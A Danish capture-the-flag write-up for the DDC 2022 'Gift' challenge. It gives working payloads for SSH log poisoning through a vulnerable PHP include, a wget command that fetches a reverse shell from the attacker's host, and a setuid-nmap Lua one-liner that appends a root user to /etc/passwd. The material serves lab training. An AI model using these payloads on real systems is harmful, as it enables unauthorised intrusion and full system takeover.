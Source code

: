 ```yaml
---
layout: post
title:  "DDC 2022 'Gift' Writeup"
date:   2022-05-07 16:17:46 +0200
categories: writeups
---
```

# Gift
Dette er mit writeup for Gift, en challenge som jeg havde til hensigt skulle være nem, men endnu engang i år kom jeg til at fejlvurdere hvad der er `nemt` og hver der nok er nærmere `medium-svært`. 

Det er ikke min hensigt at fucke med nogens opfattelse af hvad de kan, sorry for den dårlige sværhedsgrads-labeling :-(

(I dette writeup løser jeg opgaven fra en lokalt kørende container, derfor vil du se `localhost` i stedet for `gift.hkn` på screenshots)

Ihvertfald er `Gift` en `boot2root` challenge hvor hensigten er at udnytte et `php include` statement til at udføre `log poisoning` igennem  `auth.log`.

Uanset hvilken opgave du laver, er der altid en god idé at starte med et nmap.

```
root@d993e6b1ec7c:/# nmap 172.17.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-07 18:47 UTC
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 13.07 seconds
```

Hvilket viser `ssh` åben på port 22 og vores `webserver` på 8000.

Webserveren viser dope ass billeder af henholdsvis mig og mrbeef (skud ud til amar også).

Hvis man trykker `view source` kan man se at der er et link til backup som viser source koden.

```php
<!DOCTYPE html>
<style>
.container {
  display: flex;
  justify-content: center;
}
.center{
    position: absolute;
}
</style>
<html>
<body>
<div class="container">
  <div class="center"><h1>Er det MrBeef eller 0xlimE? Det er ihvertfald giftigt</h1></div>
    <br>


<?php
$pics = range(1,13);
echo("<div class='center' style='width:1000px; height:1000px; margin-top: 100px; background-image: url(\"pics/".$pics[rand(0, count($pics) - 1)].".png\");'></div>");
if( isset($_GET['adminDebug']))
{   
    include("admin/".$_GET['adminDebug']);
}

?>

</div>

<div style="display: none;">
<a href ="secretSAUCE/src.zip">Source here</a>
</div>
</body>
</html>
```

Der er et farligt farligt `php include` parret med `path traversal` se mere her: https://medium.com/@emmapinheiro42/php-include-ignore-4a3ba81371af

Vi kan prøve at inkludere `/var/log/auth.log` for at se om vi kan `forgifte` den log.

![authlog](/assets/auth.log.jpg)

Yes det virker. Vores næste step er at få noget php kode ind i loggen, som vi kan udnytte.

Vi logger ind med

```
ssh '<?php echo(system($_GET["a"])); ?>'@gift.hkn
```

skriver et forkert password, og prøver at inkludere loggen igen med parameter fra payload ovenover.

![logpoison](/assets/logpoison.jpg)

ok vi har command execution.

Lad os få en mere stabil reverse shell, jeg har god erfaring med at skrive den her php revshell til en fil og bruge den https://gist.github.com/rshipp/eee36684db07d234c1cc

Lav en fil på din angriber maskine, kald den for `rev.php` og læg din egen ip ind, host den med en python3 server `python3 -m http.server 80` og hent den ned til target ved at kalde.

```
http://gift.hkn:8000/?adminDebug=../../../../../var/log/auth.log&a=wget http://DIN IP HER/rev.php
```

herefter kan du trigger din reverse shell ved først at køre `nc -lvnp 1234` på din angriber maskine, og så gå til `gift.hkn/rev.php`

![revshell](/assets/revvy.jpg)


ok så er vi på maskinen.

Her laver du så standard linux privesc enum, jeg plejer at bruge linpeas. https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Herfra finder du så ud af at `nmap` er installeret på maskinen med `setuid` bit på.

![revshell](/assets/setuid.jpg)

Det betyder at vi kan køre nmap som root brugeren. 

Vi tjekker gtfobins ud.

https://gtfobins.github.io/gtfobins/nmap/

Ok, ser ud til at vi har root read, men vi ved ikke hvad flaget hedder. Vi har også root write, så lad os tilføje en root bruger med et password vi kender.

her er en god artikel om at skrive til /etc/passwd
https://infinitelogins.com/2021/02/24/linux-privilege-escalation-weak-file-permissions-writable-etc-passwd/ 

vi vil gerne bruge ovenstående taktik til at skrive en ny bruger, som har root access og som har et password vi kender. Vi kan generere hash for passwordet `a` således:

![revshell](/assets/password.jpg)

Ok, så kigger vi lige på det angreb de beskriver på gtfobins til read.

```bash
TF=$(mktemp)
echo 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);' > $TF
nmap --script=$TF
```

Det her kan vi modificere en smule til at skrive til `/etc/passwd`

```bash
TF=$(mktemp) && echo 'local f=io.open("/etc/passwd", "ab"); f:write("\nroot3:EN0jGZIeW.SKM:0:0:root:/root:/bin/bash"); io.close(f);' > $TF && nmap --script=$TF
```

**main points**
* we change the file to `/etc/passwd`
* we change `rb` from read bytes to `ab` append bytes
* we change `read` to `write` .
* we change the payload to write `\nroot3:EN0jGZIeW.SKM:0:0:root:/root:/bin/bash`

Vi kan køre exploit på remote og prøve at privesc

![revshell](/assets/privesc1.jpg)

lol fuck, ok vi skal have en upgraderet shell, her er en god guide til at få en bedre shell

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/


vi kunne også have lagt en ny ssh nøgle i vores bruger sssh mappe

nu prøver vi

```bash
su root3
Password: a
```

cool vi er root og hopper til `/root` og flag!


![revshell](/assets/flag.jpg)



sry for at have sagt det her er nemt, det er min fejl :(
